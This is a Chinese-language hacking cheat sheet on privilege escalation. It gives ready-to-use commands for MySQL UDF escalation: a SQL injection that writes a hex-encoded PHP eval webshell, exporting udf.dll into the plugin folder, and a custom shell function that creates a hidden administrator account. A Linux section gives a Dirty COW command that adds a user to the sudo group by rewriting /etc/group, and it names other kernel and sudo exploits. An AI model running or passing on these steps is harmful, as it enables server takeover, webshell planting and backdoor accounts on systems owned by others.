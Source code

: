 # mysql 提权
## UDF提权
虽然MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，这就是可以自行添加的MySQL 的 UDF。

MYSQL5.1及之后的几个版本又多了一个限制：创建函数时所用的DLL只能放在mysql的plugin目录里面，而且这个plugin目录默认是不存在的，可能就是为了防止黑客通过导出文件的方式将DLL来写到这个文件夹，如果导出文件（`into dumpfile`）的目标目录不存在是会报错的。

**所以在导出UDF提权之前 ，先确定一下MYSQL的版本是有必要的**
`select version();`
## 写入一句话木马

```sql
    union select 
    0x3c3f70687020406576616c28245f504f53545b2770617373275d293b3f3e,2,3 into 
    dumpfile 'c:/www/small.php'

    以上语句连续执行两次，如果出现以下错误，即说明文件写入成功：
    Invalid Query：File 'c:/www/small.php' already exists
    //第二次写入提示文件已存在则说明文件写入成功
```
## 查看MYsql安装根目录
select @@basedir;

根据 我们前面讲述的MySQL5.1版本及其之后版本，我们自定义函数需要用到的shell导出的目录应该是： 
> C:/Program Files/phpStudy/MySQL/lib/plugin/

其实也可以通过以下语句获得插件目录(并不一定真实存在):

> show variables like '%plugin%';

## 创建/lib/plugin目录
> select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib::INDEX_ALLOCATION';   
//利用NTFS ADS创建lib目录

> select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin::INDEX_ALLOCATION';
//利用NTFS ADS创建plugin目录

**利用NTFS ADS创建目录成功率很小，这个命令执行返回一直为空，二次执行不提示目录已存在，即可判断目录创建失败。如上图即目录创建失败。**

## 将udf.dll 导出到plugin目录

> select load_file('C:/www/udf.dll') into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin/udf.dll';


## 通过sql语句通过udf.dll 创建shell函数

### 创建一个自定义函数 shell

    create function shell returns string soname 'udf.dll';
    //假设此时udf.dll被上传到了c:\windows\system32目录
    
    create function shell returns string soname 'C:udf.dll';
    //假设此时udf.dll被上传到了C盘根目录目录
    
    create function shell returns string soname 'udf.dll';
    //假设此时udf.dll被上传到了任意的环境变量目录，如C:\php\

### 用法
`shell`函数用于执行系统命令，用法如下，其中的`set`是将要执行的cmd命令： 
> 
//set命令用于查询系统环境变量  

然后我们尝试在服务器添加一个用户名为`matrix`密码为`matrix`的账户:  
> select shell('cmd','net user matrix matrix /add');
接着尝试把`matrix`账户添加到`administrators`管理组：  
> select shell('cmd','net localgroup administrators matrix /add');  
然后查看详细的账户信息，确认是否已经成功添加上账户和账户是否已经被成功添加到管理员组。如下操作：  
> select shell('cmd','net user matrix');


## 完毕
提权完毕之后我们可以通过以下语句删除相关函数以防被他人利用：

    drop function shell;
    //删除函数
    delete from mysql.func where name='shell';
    //删除函数

#linux 
## cve提权
### CVE-2016-5195 脏牛漏洞 ./dow 文件名 内容
添加用户到sudo组
./dirtyc0w /etc/group "$(sed 's/\(sudo:x:.*:\)/\1test1/g' /etc/group)"
下次管理员再登陆的话 sudo su 不需要密码

### CVE-2016-8655：Linux内核竞争条件漏洞
./chocobo_root

### CVE-2017-1000367 sudo本地提权漏洞
selinux必须开